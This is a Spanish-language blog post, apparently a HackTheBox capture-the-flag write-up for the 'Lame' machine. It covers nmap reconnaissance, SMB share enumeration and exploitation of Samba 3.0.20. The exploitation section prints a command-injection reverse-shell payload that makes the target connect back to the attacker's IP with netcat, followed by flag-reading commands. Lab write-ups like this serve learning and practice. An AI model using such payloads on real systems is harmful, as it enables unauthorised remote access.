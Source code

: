 ```yaml
---
layout:   post
title:    "Write Up Lame."
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy, Linux, SMB, Reverse-Shell, CVE, RCE, eJPT, Write-Up-Machine, Starting-Point]  
---
```

![list](/assets/img/lame/Captura de pantalla (139).png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando 

diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.10.3 -oA allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/lame/Kali-2022-09-09-21-25-44.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que 

versiones y servicios que corren en los mismo de ahi podremos determinara posibles 

vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p22,8080 -sV -sC 10.10.10.3 -oN target
```
El paso anterior no es nesesario ser (root).
{:.note title="Attention"}


![list](/assets/img/lame/Kali-2022-09-09-21-27-12.png){:.lead width="800" height="100" loading="lazy"}


***
### Investigación

Uso de Investigacion web, Google Hacking,Google Dorks.

Recopilación de información gracias a servicios de terceros.

Buscamos la version vunerable de FTP `vsftpd 2.3.4` en Google.

Busacamos en searchsploit `Samba 3.0.20` una vulnerabilidad asociada a la version 

de samba.

![list](/assets/img/lame/Kali-2022-09-09-22-14-21.png){:.lead width="800" height="100" loading="lazy"}

El exploit esta escrito en ruby pero lo podenos buscar en google en python o bash. 
{:.note}

***
## Analisis de vulnerabilidades

En esta fase analizaremos la información recopilada en la fase anterior y el 

descubrimiento de las vulnerabilidades, ademas del reconoocimiento web.

Por lo  que podemos ver el script  tarata de autenticar un usualio con `/=nohup` 

Listamos los recursos con smbclient. 

![list](/assets/img/lame/Kali-2022-09-09-22-11-03.png){:.lead width="800" height="100" loading="lazy"}

```bash
smbclient -L //10.10.10.3 -N
```
ingrsamos al recurso compartido en la carpeta /tmp .

![list](/assets/img/lame/Kali-2022-09-09-22-11-42.png){:.lead width="800" height="100" loading="lazy"}

## Explotacion

Por lo que deducimos en el script, aki podemos ejecutar comando y usaremos logon para 

ejecutar una reverse shell. 

![list](/assets/img/lame/Kali-2022-09-09-22-16-24.png){:.lead width="800" height="100" loading="lazy"}

```bash
logon "/=nohup nc -c sh 10.10.14.17 443"
```
En otro terminal debe estar a la ecucha un listener es decir `nc -lvnp 443`. 
{:.note}

```bash
root@lame:/# find -name user.txt | xargs cat
```
***
## Escalacion de privileguios

Lame no tiene escalacion de privilegios ya que ya somos root ,pero podemos bucar la flag 

con el siguente comado.

![list](/assets/img/lame/Kali-2022-09-09-22-33-59.png){:.lead width="800" height="100" loading="lazy"}

```bash
root@lame:/# find -name root.txt | xargs cat
```
***
```bash
🎉 Felicitaciones ya has comprometido Lame de HackTheBox 🎉
```
{:.centered}
***
Back to [Beginner Track](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}